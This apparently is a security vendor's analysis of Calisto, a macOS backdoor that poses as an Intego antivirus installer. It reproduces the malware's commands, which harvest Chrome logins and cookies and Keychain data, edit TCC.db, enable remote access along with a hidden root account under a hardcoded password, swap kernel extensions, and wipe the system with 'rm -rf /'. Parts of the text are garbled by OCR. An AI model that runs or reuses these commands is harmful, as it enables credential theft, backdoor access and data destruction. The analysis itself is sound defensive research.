




# Calisto Trojan for macOS

20 JUL 2018

# The first member of the Proton malware family?

An interesting aspect of studying a particular piece of malware is tracing its evolution and observing how the creators gradually add new monetization or entrenchment techniques. Also of interest are developmental prototypes that have had limited distribution or not even occurred in the wild. We recently came across one such sample: a macOS backdoor that we named Calisto.

The malware was uploaded to VirusTotal way back in 2016, most likely the same year it was created. But for two whole years, until May 2018, Calisto remained off the radar of antivirus solutions, with the first detections on VT appearing only recently.

| SHA256: |  | 0ec3b65534ef09f83b3f43d93b015a7a2cc2534c5f7f251400c5227fd1cabad9 |  |  |  |
| --- | --- | --- | --- | --- | --- |
| File name: |  | Intego_v9.0.3 websetup.dmg |  |  |  |
| Detection ratio: |  | 2 / 59 |  |  |  |
| Analysis date: |  | 2018-05-22 07:37:32 UTC ( 1 month, 3 weeks ago ) View latest |  |  |  |
| @ Analysis @ File detail |  | Additional information 0 | Comments | Votes | Behavioural information |
| O File identification |  |  |  |  |  |
| MD5 | d7ac1b8113c94567be4a26d214964119 |  |  |  |  |
| SHA1 | 55800dc173d80a8a4ab7685b0a4f212900778fa0 |  |  |  |  |
| SHA256 | 0ec3b65534ef09f83b3f43d93b015a7a2cc2534c5f7f251400c5227fd1cabad9 |  |  |  |  |
| ssdeep | 98304:Gjq6v/tOjgujjFRpEmvVyxHpDc8uumEuwoeKxv/oQ6lVz4jgFEBOja4GSGepvuE9:GjzcjdvVYHluu |  |  |  |  |
|  | C9xYxIN40FYODFbZn8d |  |  |  |  |
| File size | 4.9 MB ( 5188982 bytes ) |  |  |  |  |
| File type |  | Macintosh Disk Image |  |  |  |
| Magic literal |  | data |  |  |  |
| TrID |  | Macintosh Disk image (BZlib compressed) (97.6%) |  |  |  |
|  |  | ZLIB compressed data (var. 4) (2.3%) |  |  |  |
| Tags |  | license   dmg |  |  |  |
| 4 VirusTotal metadata |  |  |  |  |  |
| First submission |  | 2016-08-02 04:38:29 UTC ( 1 year, 11 months ago ) |  |  |  |
| Last submission |  | 2018-05-22 07:37:32 UTC ( 1 month, 3 weeks ago ) |  |  |  |
| File names |  | Intego v9.0.3 websetup.dmg |  |  |  |

Malware for macOS is not that common, and this sample was found to contain some suspiciously familiar features. So we decided to unpick Calisto to see what it is and why its development was stopped (or was it?).

## Propagation

We have no reliable information about how the backdoor was distributed. The Calisto installation file is an unsigned DMG image under the guise of Intego's security solution for Mac. Interestingly, Calisto's authors chose the ninth version of the program as a cover which is still relevant.

For illustrative purposes, let's compare the malware file with the version of Mac Internet Security X9 downloaded from the official site.

| Backdoor | Intego Mac Internet Security 2018 |
| --- | --- |
| Unsigned | Signed by Intego |



 It looks fairly convincing. The user is unlikely to notice the difference, especially if he has not used the app before.

## Installation

As soon as it starts, the application presents us with a sham license agreement. The text differs slightly from the Intego's one — perhaps the cybercriminals took it from an earlier version of the product.

| 000 | d7ac1b8113c94567be4a26d214964119.dmg |  |  |  |
| --- | --- | --- | --- | --- |
| If you agree with the terms of this license, click "Agree" to | License Agreement |  |  |  |
| access the software. If you do not agree, press | NOTICE TO ALL USERS: CAREFULLY READ THE |  |  |  |
| "Disagree." | FOLLOWING LEGAL AGREEMENT ("AGREEMENT") |  |  |  |
|  | FOR THE LICENSE OF THIS SOFTWARE PRODUCT |  |  |  |
|  | ("SOFTWARE") BY INTEGO. BY CLICKING THE |  |  |  |
|  | ACCEPT BUTTON OR INSTALLING THE |  |  |  |
|  | SOFTWARE, YOU (EITHER AN INDIVIDUAL OR A |  |  |  |
|  | SINGLE ENTITY) CONSENT TO BE BOUND BY AND |  |  |  |
|  | BECOME A PARTY TO THIS AGREEMENT. IF YOU |  |  |  |
|  | DO NOT AGREE TO ALL OF THE TERMS OF THIS |  |  |  |
|  | AGREEMENT, CLICK THE BUTTON THAT |  |  |  |
|  | INDICATES THAT YOU DO NOT ACCEPT THE |  |  |  |
|  | TERMS OF THIS AGREEMENT AND DO NOT |  |  |  |
|  | Print | Save ... | Disagree | Agree |

Next, the "antivirus" asks for the user's login and password, which is completely normal when installing a program able to make changes to the system on macOS.

| Intego Antivirus wants to make changes. Type your password to allow this. |  |
| --- | --- |
| Username: oleg |  |
| Password: |  |
|  | Cancel ОК |

But after receiving the credentials, the program hangs slightly before reporting that an error has occurred and advising the user to download a new installation package from the official site of the antivirus developer.


# Installation failed

The software package appears to be invalid. Please download a new package from https:// www.intego.com/antivirus-mac-internet-security

OK

The technique is simple, but effective. The official version of the program will likely be installed with no problems, and the error will soon be forgotten. Meanwhile, in the background, Calisto will be calmly getting on with its mission.

# Analysis of the Trojan

## With SIP enabled

Calisto's activity on a computer with SIP (System Integrity Protection) enabled is rather limited. Announced by Apple back in 2015 alongside the release of OSX El Capitan, SIP is designed to protect critical system files from being modified – even by a user with root permissions. Calisto was developed in 2016 or earlier, and it seems that its creators simply didn't take into account the then-new technology. However, many users still disable SIP for various reasons; we categorically advise against doing so.

Calisto's activity can be investigated using its child processes log and decompiled code:



#### Log of commands executed by the Trojan during its operation

```
v323 =  TIFSs5printFTGSaP__9separatorSS10terminatorSS_T_A1_();
_TFSs5printFTGSaP__9separatorSS10terminatorSS_T_(v317, v318, v320, v322, v323, v324, v325);
v142 = "&& zip ~/.calisto/CR.zip ~/Library/Application\\ Support/Google/Chrome/Default/Login\\ Data ~/Library/Appli"
       "cation\\ Support/Google/Chrome/Default/Cookies ~/Library/Application\\ Support/Google/Chrome/Default/Bookma"
       "rks ~/Library/Application\\ Support/Google/Chrome/Default/History";
v143 = 274LL;
```


We can see that the Trojan uses a hidden directory named .calisto to store:

Keychain storage data

Data extracted from the user login/password window

Information about the network connection

Data from Google Chrome: history, bookmarks, cookies

Recall that Keychain stores passwords/tokens saved by the user, including ones saved in Safari. The encryption key for the storage is the user's password.

Next, if SIP is enabled, an error occurs when the Trojan attempts to modify system files. This violates the operational logic of the Trojan, causing it to stop.

```
sudo salite3 << EOF
         ' /Library / Application Support/com. apple. TCC/TCC. dh
  . open
                                                                        com.intego.Mac-Internet-Security-X9-Installer', 0,1, 1, NULL, NULL);
  insert or replace into access values ( ' KTCServiceAccessibility
       near line 2: attempt to write a readonly database
Error:
```
#### Error message

### With SIP disabled/not available

Observing Calisto with SIP disabled is far more interesting. To begin with, Calisto executes the steps from the previous chapter, but as the Trojan is not interrupted by SIP, it then:

Copies itself to /System/Library/ folder

Sets itself to launch automatically on startup

Unmounts and uninstalls its DMG image

Adds itself to Accessibility

Harvests additional information about the system

Enables remote access to the system

Forwards the harvested data to a C&C server

Let's take a closer look at the malware's implementation mechanisms.

Adding itself to startup is a classic technique for macOS, and is done by creating a .plist file in the /Library/LaunchAgents/ folder with a link to the malware:

| [/Library/LaunchAgents$ Is |  |  |  |
| --- | --- | --- | --- |
| com.intego.Mac-Internet-Security-X9-Installer.plist |  |  |  |
| ●●● | සි | com.intego.Mac-Internet-Security-X9-Installer.plist |  |
| F පි | com.intego.Mac-Internet-Security-X9-Installer.plist > No Selection |  | 급 |
| Key | Type | Value |  |
| V Root | Dictionary | (4 items) |  |
| KeepAlive | Boolean | YES |  |
| Label | String | com.intego.Mac-Internet-Security-X9-Installer |  |
| V ProgramArguments | Array | (1 item) |  |
| Item O | String | /System/Library/CoreServices/launchb.app/Contents/MacOS/launchb |  |
| RunAtLoad | Boolean | YES |  |

The DMG image is unmounted and uninstalled via the following command:

```
' | sudo -S diskutil unmount /Volumes/Mac\ Internet\ Security\ X9
                     ; DATA XREF: sub 10000A400+873↑o
                     ; sub 10000A400:loc 10000ACAFto
'&& rm -rf ~/Downloads/Intego_v9.0.3_websetup.dmg',0
```
To extend its capabilities, Calisto adds itself to Accessibility by directly modifying the TCC.db file, which is bad practice and an indicator of malicious activity for the antivirus. On the other hand, this method does not require user interaction.

|  |  | :::: | Security & Privacy | Q Search |
| --- | --- | --- | --- | --- |
|  |  | General | FileVault Firewall Privacy |  |
|  | 7 Location Services |  | Allow the apps below to control your computer. |  |
|  | Contacts |  | V launchb.app |  |
|  | Calendars |  |  |  |
|  | Reminders |  |  |  |
| launchb.app | Photos |  |  |  |
|  | Accessibility |  |  |  |
|  | Analytics :46 |  |  |  |

An important feature of Calisto is getting remote access to the user system. To provide this, it:

Enables remote login

Enables screen sharing

Configures remote login permissions for the user

Allows remote login to all

Enables a hidden "root" account in macOS and sets the password specified in the Trojan code

The commands used for this are:

/RemoteManagement/ARDAgent.app/Contents/Resources/kickstart -activate /bin/launchctl list com.apple.screensharing 2>/dev/null localonly -create /Local/Target/Users/oleq naprivs /usr/bin/dscl ' / var/db/ds local/nodes/Default' /usr/bin/defaults write /Library/Preferences/com.apple.RemoteManagement ARD_AllLocalUsers -boolean YBS /usr/bin/defaults write /Library/Preferences/com.apple.RemoteManagement ARD_AllLocalUsersPrivs -integer 1073742079 -p infected -r aGNOStIC7890 !!! -setcomputersleep Never

Note that although the user "root" exists in macOS, it is disabled by default. Interestingly, after a reboot, Calisto again requests user data, but this time waits for the input of the actual root password, which it previously changed itself (root: aGNOStIC7890!!!). This is one indication of the Trojan's rawness.

```
~$ dsenableroot -p infected -r aGNOStIC7890
username = oleg
dsenableroot :: ***Successfully enabled root user.
~$ su
Password:
sh-3.2#
```
At the end, Calisto attempts to transfer all data from the .calisto folder to the cybercriminals' server. But at the time of our research, the server was no longer responding to requests and seemed to be disabled:



| No. Time | Source | Destination | Protocol | Length Info |
| --- | --- | --- | --- | --- |
| 501 39.320482 | 10.63.111.111 | 40.87.56.192 | TCP | 78 49171 → 80 [SYN, ECN, CWR] Seq=0 Win=65535 Len=0 NSS=1460 WS=32 TSval=101028515 TSecr=0 SACK PERM=1 |
| 503 40.322938 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 > 80 [SYN] Seq=0 Nin=65535 Len=0 MSS=1460 WS=32 TSval=101029515 TSecr=0 SACK PERN=1 |
| 508 41.323621 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 + 80 [SYN] Seq=0 Win=65535 Len=0 MSS=1466 WS=32 TSval=101038515 TSecr=0 SACK PERN=1 |
| 511 42.324950 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 → 80 [SYN] Seg=0 Nin=65535 Len=0 MSS=1460 WS=32 TSval=101031515 TSecr=0 SACK PERN=1 |
| 518 43.326375 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 + 80 [SYN] Seq=0 Nin=65535 Len=0 MSS=1466 NS=32 TSval=101037516 TSecr=0 SACK PERN=1 |
| 521 44.326409 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 → 80 [SYN] Seq=0 Nin=65535 Len=0 MSS=1460 W5=32 TSval=101033516 TSecr=0 SACK PERN=1 |
| 525 46.328595 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 + 80 [SYN] Seq=0 Nin=65535 Len=0 MSS=1460 WS=32 TSval=101035517 TSecr=0 SACK PERW=1 |
| 538 50.330972 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 + 80 [SYN] Seq=0 Nin=65535 Len=0 MSS=1460 NS=32 TSval=101039517 TSecr=0 SACK PERN=1 |
| 578 58.336560 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 + 80 [SYN] Sea=0 Nin=65535 Len=0 MSS=1460 WS=32 TSval=101047517 TSecr=0 SACK PERN=1 |
| 683 74.350923 | 10.63.111.111 | 40.87.56.192 | TCP | 78 [TCP Retransmission] 49171 + 80 [SYN] Seq=0 Win=65535 Len=0 MSS=1460 NS=32 TSval=1010063517 TSecr=0 SACK PERN=1 |

Attempt to contact the C&C server

## Extra functions

Static analysis of Calisto revealed unfinished and unused additional functionality:

Loading/unloading of kernel extensions for handling USB devices

Data theft from user directories

Self-destruction together with the OS

```
suao kextunioad / System/Library/Extensions/AppleUSBTopCase.kext
sudo kextunload /System/Library/Extensions/AppleUSBMultitouch.kext
sudo kextunload /System/Library/Extensions/IOUSBFamily.kext
sudo kextunload /System/Library/Extensions/IOUSBMassStorageClass.kext
sudo kextunload /System/Library/Extensions/IOUSBMassStorageDriver.kext
sudo cp -f /System/Library/Extensions/AppleUSBTopCase.kext /Library/iTunes/1.mp3
sudo cp -f /System/Library/Extensions/AppleUSBMultitouch.kext /Library/iTunes/2.mp3
sudo cp -f /System/Library/Extensions/IOUSBFamily.kext /Library/iTunes/3.mp3
sudo cp -f /System/Library/Extensions/IOUSBMassStorageDriver.kext /Library/iTunes/4.mp3
sudo cp -f /System/Library/Extensions/IOUSBMassStorageClass.kext /Library/iTunes/5.mp3
sudo cp -f /Library/iTunes/1.mp3 /System/Library/Extensions/AppleUSBTopCase.kext
sudo cp -f /Library/iTunes/2.mp3 /System/Library/Extensions/AppleUSBMultitouch.kext
sudo cp -f /Library/iTunes/3.mp3 /System/Library/Extensions/IOUSBFamily.kext
sudo cp -f /Library/iTunes/4.mp3 /System/Library/Extensions/IOUSBMassStorageDriver.kext
sudo cp -f /Library/iTunes/5.mp3 /System/Library/Extensions/IOUSBMassStorageClass.kext
sudo kextload /System/Library/Extensions/AppleUSBTopCase.kext
sudo kextload /System/Library/Extensions/AppleUSBMultitouch.kext
sudo kextload /System/Library/Extensions/IOUSBFamily.kext
sudo kextload /System/Library/Extensions/IOUSBMassStorageClass.kext
```

```
sudo kextload /System/Library/Extensions/IOUSBMassStorageDriver.kext\
```
Loading/unloading of kernel extensions

| sudo dscl . - passwd /Users/$USER | sudo rm -rf /Users/ /Downloads /Users/ /Documents /Users/ /Desktop /Users/ /Pictures /Users/ /Music /Users/ /Movies /Users/ /* /Users/ /.calisto /Users/ /Library/.cid /Users/ /Users/

Working with user directories

("/.* && sudo rm -rf ~/.Trash/* && sudo rm -rf /",

Self-destruction together with the entire system

#### Connections with Backdoor.OSX.Proton

Conceptually, the Calisto backdoor resembles a member of the Backdoor.OSX.Proton family:

The distribution method is similar: it masquerades as a well-known antivirus (a Backdoor.OSX.Proton was previously distributed under the guise of a Symantec antivirus product)

The Trojan sample contains the line "com.proton.calisto.plist"

Like Backdoor.OSX.Proton, this Trojan is able to steal a great amount of personal data from the user system, including the contents of Keychain

Recall that all known members of the Proton malware family were distributed and discovered in 2017. The Calisto Trojan we detected was created no later than 2016. Assuming that this Trojan was written by the same authors, it could well be one of the very first versions of Backdoor.OSX.Proton or even a prototype. The latter hypothesis is supported by the large number of unused and not fully implemented functions. However, they were missing from later versions of Proton.

To protect against Calisto, Proton, and their analogues:

Always update to the current version of the OS

Never disable SIP

Run only signed software downloaded from trusted sources, such as the App Store

Use antivirus software

#### MD5

DMG image: d7ac1b8113c94567be4a26d214964119 Mach-O executable: 2f38b201f6b368d587323a1bec516e5d

MALWARE DESCRIPTIONS APPLE MACOS BACKDOOR

## Authors


# Calisto Troian for macOS

Your email address will not be published. Required fields are marked *

| Type your comment here |  |  |
| --- | --- | --- |
|  |  |  |
| Name * | Email * |  |


# // LATEST POSTS

Analysis of the Crypt Ghouls group: continuing the investigation into a series of attacks on Russia

KASPERSKY

SAS CTF and the many ways to persist a kernel shellcode on Windows 7

IGOR KUZNETSOV, BORIS LARIN

Beyond the Surface: the evolution and expansion of the SideWinder APT group

GIAMPAOLO DEDOLA, VASILY BERDNIKOV

#### Whispers from the Dark Web Cave. Cyberthreats in the Middle East

VERA KHOLOPOVA, KASPERSKY SECURITY SERVICES

TECHNOLOGIES AND SERVICES

# // LATEST WEBINARS

THREAT INTELLIGENCE AND IR

#### Inside the Dark Web: exploring the human side of cybercriminals

Cybersecurity's human factor – more than an

ΑΝΝΑ PAVLOVSΚΑΥΑ

#### The Cybersecurity Buyer's Dilemma: Hype vs (True) Expertise

OLEG GOROBETS, ALEXANDER LISKIN

CYBERTHREAT TALKS

unpatched vulnerability

TRAININGS AND WORKSHOPS

60 MIN

Building and prioritizing detection engineering backlogs with MITRE ATT&CK

ANDREY TAMOYKIN

09 JUL 2024, 4:00PM

60 MIN

# // REPORTS

16 JUL 2024, 5:00PM

OLEG GOROBETS

Beyond the Surface: the evolution and expansion of the SideWinder APT group

Kaspersky analyzes SideWinder APT's recent activity: new targets in the MiddleEast and Africa, post-exploitation tools and techniques.

BlindEagle flying high in Latin America

EastWind campaign: new CloudSorcerer attacks on government organizations in Russia

APT trends report Q2 2024

Missed cyberthreats: real-world cases where compromise assessment uncovered what was overlooked

Amged Wageh

Victor Sergeev

# // SUBSCRIBE TO OUR WEEKLY E-MAILS

The hottest research right in your inbox

Email

Subscribe

l agree to provide my email address to "AO Kaspersky Lab" to receive information about new posts on the site. I understand that I can withdraw this consent at any time via e-mail by clicking the

"unsubscribe" link that I find at the bottom of any e-mail sent to me for the purposes mentioned above.

Threats

Categories

| Archive | All tags |
| --- | --- |
| Webinars | APT Logbook |
| Statistics | Encyclopedia |
| Threats descriptions | KSB 2023 |

© 2024 AO Kaspersky Lab. All Rights Reserved. Registered trademarks and service marks are the property of their respective owners.

Privacy Policy License Agreement Cookies

